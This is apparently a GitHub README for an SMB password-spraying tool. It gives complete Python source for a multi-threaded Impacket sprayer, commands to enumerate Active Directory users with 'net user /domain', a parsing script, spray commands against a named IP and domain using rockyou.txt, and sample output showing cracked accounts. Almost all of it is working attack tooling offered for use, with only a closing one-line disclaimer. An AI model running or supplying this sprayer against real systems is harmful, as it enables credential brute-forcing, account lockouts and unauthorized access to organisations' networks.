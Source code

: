 # SMB-Sprayer

A Python-based multi-threaded SMB Password Spraying tool leveraging Impacket. Supports spraying blank passwords and dictionary attacks against SMBv2/3 enabled systems.

## Features

- Spray blank passwords against a user list.
- Spray a wordlist against a user list.
- Multi-threaded for high-speed attacks.
- Supports SMBv2/3 (Null sessions not required).

## Prerequisites

- Python 3.x
- Install requirements:
  ```bash
  pip install -r requirements.txt
  ```

Create a `requirements.txt` file with the following content:

```text
impacket
```
- Impacket library:
  ```bash
  pip install impacket
  ```

## Extracting Users from Domain Controller

Run the following command on a domain-joined machine to list users:

```cmd
net user /domain
```

This will output usernames in blocks.

### Save Output to a File:

```cmd
net user /domain > domain_users.txt
```

### Convert Extracted Users to Wordlist (Python Script)

```python
# extract_users.py
input_file = 'domain_users.txt'
output_file = 'userlist.txt'

with open(input_file, 'r') as infile:
    lines = infile.readlines()

usernames = []
for line in lines:
    parts = line.strip().split()
    for part in parts:
        if part.isdigit() or part.isalpha() or part.isalnum():
            usernames.append(part)

with open(output_file, 'w') as outfile:
    for user in usernames:
        outfile.write(f"{user}\n")

print(f"[+] Extracted {len(usernames)} usernames to {output_file}")
```

Run:

```bash
python3 extract_users.py
```

## Running SMB-Sprayer

### Blank Password Spray

```bash
python3 smb_sprayer.py --target 10.128.3.1 --domain scasa4.com --userlist userlist.txt --mode blank --threads 30
```

### Wordlist Spray (rockyou.txt)

```bash
python3 smb_sprayer.py --target 10.128.3.1 --domain scasa4.com --userlist userlist.txt --wordlist /usr/share/wordlists/rockyou.txt --mode wordlist --threads 30
```

## smb_sprayer.py (With Parameters)

```python
import threading
import argparse
from impacket.smbconnection import SMBConnection
import time

threads = []

def smb_login(target_ip, domain, user, password):
    try:
        smb = SMBConnection(target_ip, target_ip, sess_port=445, timeout=5)
        smb.login(user, password)
        print(f"[+] SUCCESS: {domain}\\{user} : {password}")
        smb.logoff()
    except Exception as e:
        # pass  # Ignore failed login outputs
        pass  # Ignore failures

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="SMB Password Sprayer")
    parser.add_argument('--target', required=True, help='Target IP address')
    parser.add_argument('--domain', required=True, help='Domain name')
    parser.add_argument('--userlist', required=True, help='File with list of usernames')
    parser.add_argument('--wordlist', required=False, help='File with list of passwords')
    parser.add_argument('--threads', type=int, default=20, help='Max concurrent threads')
    parser.add_argument('--mode', choices=['blank', 'wordlist'], required=True, help='Spray mode: blank or wordlist')

    args = parser.parse_args()

    with open(args.userlist, 'r') as f:
        users = [line.strip() for line in f.readlines()]

    if args.mode == 'blank':
        for user in users:
            while threading.active_count() > args.threads:
                time.sleep(0.1)

            t = threading.Thread(target=smb_login, args=(args.target, args.domain, user, ''))
            t.start()
            threads.append(t)

    elif args.mode == 'wordlist':
        if not args.wordlist:
            print("[!] Please provide a wordlist for wordlist mode.")
            exit(1)

        with open(args.wordlist, 'r', encoding="latin-1") as f:
            passwords = [line.strip() for line in f.readlines()]

        for password in passwords:
            for user in users:
                while threading.active_count() > args.threads:
                    time.sleep(0.1)

                t = threading.Thread(target=smb_login, args=(args.target, args.domain, user, password))
                t.start()
                threads.append(t)

    for t in threads:
        t.join()

    print("[*] Password Spray Completed.")
```

## Example Output

```
[+] SUCCESS: scasa4.com\\itadmin : 
[+] SUCCESS: scasa4.com\\guest : 
[+] SUCCESS: scasa4.com\\user : password123
[*] Password Spray Completed.
```

## License

MIT License

## Disclaimer

For educational and authorized penetration testing use only.


